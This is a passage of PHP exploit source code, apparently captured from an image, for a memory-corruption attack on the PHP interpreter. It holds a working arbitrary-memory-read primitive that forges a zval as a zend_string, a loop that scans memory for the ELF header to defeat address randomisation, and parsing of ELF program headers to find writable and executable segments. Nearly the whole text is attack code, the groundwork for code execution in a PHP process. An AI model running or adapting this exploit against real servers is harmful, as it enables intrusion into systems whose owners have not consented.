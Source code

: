 ```php
        parent::offsetGet($x);
    }
}

/**
 * Reads an arbitrary address by changing a zval to point to the address minus 0x10,
 * and setting its type to zend_string, so that zend_string->len points to the value
 * we want to read.
 */
function read($addr, $s=8)
{
    global $fake_dll_element, $leaked_str_offsets, $rw_dll;

    i2s($fake_dll_element, $leaked_str_offsets[2] + 0x18, $addr - 0x10);
    i2s($fake_dll_element, $leaked_str_offsets[2] + 0x20, 0x00000006);

    $value = strlen($rw_dll[0]);

    if($s != 8)
        $value &= (1 << ($s << 3)) - 1;

    return $value;
}

function get_binary_base($binary_leak)
{
    $base = 0;
    $start = $binary_leak & 0xfffffffffffff000;
    for($i = 0; $i < 0x1000; $i++)
    {
        $addr = $start - 0x1000 * $i;
        $leak = read($addr, 7);
        # ELF header
        if($leak == 0x10102464c457f)
            return $addr;
    }
    # We'll crash before this but it's clearer this way
    die('Exploit failed: Unable to find ELF header');
}

function parse_elf($base)
{
    $e_type = read($base + 0x10, 2);

    $e_phoff = read($base + 0x20);
    $e_phentsize = read($base + 0x36, 2);
    $e_phnum = read($base + 0x38, 2);

    for($i = 0; $i < $e_phnum; $i++) {
        $header = $base + $e_phoff + $i * $e_phentsize;
        $p_type  = read($header + 0x00, 4);
        $p_flags = read($header + 0x04, 4);
        $p_vaddr = read($header + 0x10);
        $p_memsz = read($header + 0x28);

        if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
            # handle pie
            $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
            $data_size = $p_memsz;
        } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
            $text_size = $p_memsz;
        }
    }
```